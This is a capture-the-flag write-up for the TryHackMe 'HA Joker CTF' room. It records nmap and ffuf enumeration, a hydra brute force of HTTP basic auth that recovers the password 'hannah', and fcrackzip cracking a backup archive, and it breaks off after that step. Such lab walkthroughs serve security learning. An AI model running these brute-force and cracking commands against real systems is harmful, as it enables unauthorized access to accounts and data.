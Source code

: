 # HA Joker CTF



Room link: https://tryhackme.com/room/jokerctf

## Enumeration 

Nmap 

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
8080/tcp open  http    Apache httpd 2.4.29
```


ffuf

```
css                     [Status: 301, Size: 308, Words: 20, Lines: 10]
img                     [Status: 301, Size: 308, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 5954, Words: 783, Lines: 97]
secret.txt              [Status: 200, Size: 320, Words: 62, Lines: 7]
                        [Status: 200, Size: 5954, Words: 783, Lines: 97]
phpinfo.php             [Status: 200, Size: 94858, Words: 4706, Lines: 1160]
index.html              [Status: 200, Size: 5954, Words: 783, Lines: 97]
```

secret.txt

```
Batman hits Joker.
Joker: "Bats you may be a rock but you won't break me." (Laughs!)
Batman: "I will break you with this rock. You made a mistake now."
Joker: "This is one of your 100 poor jokes, when will you get a sense of humor bats! You are dumb as a rock."
Joker: "HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA!"
```

http://10.10.68.63/phpinfo.php

## port 8080 (Brute Force)

basic auth brute force with the user name Joker

```
hydra -l joker -P /usr/share/wordlists/rockyou.txt -s 8080 -f 10.10.68.63 http-get / -f -V 

[8080][http-get] host: 10.10.68.63   login: joker   password: hannah
```

enum the new web directorys

```bash
ffuf -u "http://10.10.68.63:8080//FUZZ" -w  /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt  -c   -mc all  -fc 404,403,301 -e .html,.txt,.php,.zip -H "Authorization: Basic am9rZXI6aGFubmFo"

backup                  [Status: 200, Size: 12133560, Words: 0, Lines: 0]
backup.zip              [Status: 200, Size: 12133560, Words: 0, Lines: 0]
robots.txt              [Status: 200, Size: 836, Words: 88, Lines: 33]
robots                  [Status: 200, Size: 836, Words: 88, Lines: 33]
configuration.php       [Status: 200, Size: 0, Words: 1, Lines: 1]
htaccess                [Status: 200, Size: 3005, Words: 438, Lines: 81]
htaccess.txt            [Status: 200, Size: 3005, Words: 438, Lines: 81]
                        [Status: 200, Size: 10925, Words: 776, Lines: 218]
```


$ fcrackzip -D -p /usr/share/wordlists/rockyou.txt backup                                                    1 ⨯
possible pw found: hannah ()
                              

